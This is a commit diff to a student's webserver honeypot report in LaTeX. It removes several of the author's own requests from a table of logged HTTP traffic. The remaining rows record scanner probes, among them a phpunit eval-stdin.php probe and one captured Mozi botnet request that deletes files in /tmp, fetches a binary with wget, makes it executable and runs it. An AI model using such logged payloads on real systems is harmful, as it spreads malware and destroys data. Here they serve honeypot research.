

Before and after one commit to cohenchris/webserver_honeypot, a LaTeX document (report/finalproject.tex): part of page 15 of 15, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
finished report

```diff
--- a/report/finalproject.tex
+++ b/report/finalproject.tex
@@ -670,11 +670,6 @@ This project has sparked interest in me at a level that school hasn't, and I'm e
 276 & 2020-04-30 12:52:27 & 44.224.22.196   & GET /                                                                                                                               \\ \hline
 277 & 2020-04-30 12:52:27 & 44.224.22.196   & GET /latest/dynamic/instance-identity/document                                                                                      \\ \hline
 278 & 2020-04-30 12:52:27 & 44.224.22.196   & GET /latest/dynamic/instance-identity/document                                                                                      \\ \hline
-279 & 2020-04-30 13:04:49 & 73.103.89.163   & GET /                                                                                                                               \\ \hline
-280 & 2020-04-30 13:04:54 & 73.103.89.163   & GET /cgi-bin/                                                                                                                       \\ \hline
-281 & 2020-04-30 13:04:55 & 73.103.89.163   & GET /cgi-bin/server\_logs.py                                                                                                        \\ \hline
-282 & 2020-04-30 13:05:03 & 73.103.89.163   & GET /cgi-bin/server\_logs.py                                                                                                        \\ \hline
-283 & 2020-04-30 13:05:04 & 73.103.89.163   & GET /favicon.ico                                                                                                                    \\ \hline
 284 & 2020-04-30 13:05:24 & 23.95.82.154    & GET /cfg/phone1.cfg                                                                                                                 \\ \hline
 285 & 2020-04-30 13:05:24 & 23.95.82.154    & GET /aastra.cfg                                                                                                                     \\ \hline
 286 & 2020-04-30 13:05:24 & 23.95.82.154    & GET /000000000000.cfg                                                                                                               \\ \hline
@@ -684,18 +679,13 @@ This project has sparked interest in me at a level that school hasn't, and I'm e
 290 & 2020-04-30 13:05:25 & 23.95.82.154    & GET /sip.cfg                                                                                                                        \\ \hline
 291 & 2020-04-30 13:05:25 & 23.95.82.154    & GET /phone1.cfg                                                                                                                     \\ \hline
 292 & 2020-04-30 13:31:46 & 162.243.138.114 & GET /ReportServer                                                                                                                   \\ \hline
-293 & 2020-04-30 14:30:49 & 73.103.89.163   & GET /favicon.ico                                                                                                                    \\ \hline
 294 & 2020-04-30 14:51:42 & 138.99.216.171  & GET / HTTP/1.0                                                                                                                      \\ \hline
 295 & 2020-04-30 14:58:40 & 80.82.68.69     & GET /                                                                                                                               \\ \hline
 296 & 2020-04-30 14:58:40 & 80.82.68.69     & GET /robots.txt                                                                                                                     \\ \hline
 297 & 2020-04-30 14:58:41 & 80.82.68.69     & GET /favicon.ico                                                                                                                    \\ \hline
 298 & 2020-04-30 15:20:26 & 162.243.138.241 & GET /hudson                                                                                                                         \\ \hline
-299 & 2020-04-30 15:23:10 & 73.103.89.163   & GET /cgi-bin/server\_logs.py                                                                                                        \\ \hline
 300 & 2020-04-30 15:25:48 & 49.143.32.6     & GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws                                   \\ \hline
 301 & 2020-04-30 16:18:20 & 5.101.0.209     & GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php                                                                             \\ \hline
-302 & 2020-04-30 16:18:30 & 73.103.89.163   & GET /cgi-bin/server\_logs.py                                                                                                        \\ \hline
-303 & 2020-04-30 16:18:33 & 73.103.89.163   & GET /cgi-bin/server\_logs.py                                                                                                        \\ \hline
-304 & 2020-04-30 16:18:34 & 73.103.89.163   & GET /favicon.ico                                                                                                                    \\ \hline
 305 & 2020-04-30 16:53:47 & 128.14.134.170  & GET /                                                                                                                               \\ \hline
 \end{longtable}
 \end{document}
```
Also changed, not shown: report/finalproject.pdf.
